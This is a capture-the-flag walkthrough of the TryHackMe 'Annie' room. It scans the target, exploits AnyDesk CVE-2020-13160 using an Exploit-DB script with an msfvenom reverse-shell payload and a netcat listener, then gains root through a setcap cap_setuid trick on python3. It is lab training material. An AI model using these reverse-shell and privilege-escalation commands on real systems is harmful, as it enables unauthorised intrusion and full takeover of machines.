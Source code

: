 ## Annie CTF - [room](https://tryhackme.com/room/annie)

First we will start the machine, and grab the ip:
  - 10.10.76.15

`sudo nmap -v -sV -sC -oN nmap.log 10.10.76.15 -p- | grep open `

**Output**:
```shell
Discovered open port 22/tcp on 10.10.76.15
Discovered open port 33797/tcp on 10.10.76.15
Discovered open port 7070/tcp on 10.10.76.15
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp  open  realserver?
33797/tcp open  unknown
```
`sudo nmap -v -sV -sC -oN nmap.txt 10.10.76.15 -p 22,7070`

**Output**:
```
PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
```

Making some research about anydesk client we know that anydesk use port range 50001-50003
so scanning that ports we know that port 50001 is open, and searching for anydesk CVE/Vulns we found

### CVE-2020-13160 - [Link](https://www.exploit-db.com/exploits/49613)

Now changing the ip in `ip = $ip`

![screenshot](https://github.com/SnowyYT07/TryhackmeCTFs/blob/main/Annie/screenshot.png)

and changing that shellcode with
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=*thm ip* LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode`

we just need to set our listener and run the py script
`nc -lvnp 4444`

IN ANOTHER SHELL:

`python2 49613.py`


### RCE TIME

Now we have a user perm shell doing
cat user.txt we get

THM{[REDECTED]}

now u have to explore for privesc
with
`find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`

we can find binary with SUID perm
lets use the /sbin/setcap so..

`cp /usr/bin/python3 /home/annie/python3`

`setcap cap_setuid+ep /home/annie/python3`

`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

now we got root and:

`cat /root/root.txt`
and we get 
`THM{[REDECTED]}`
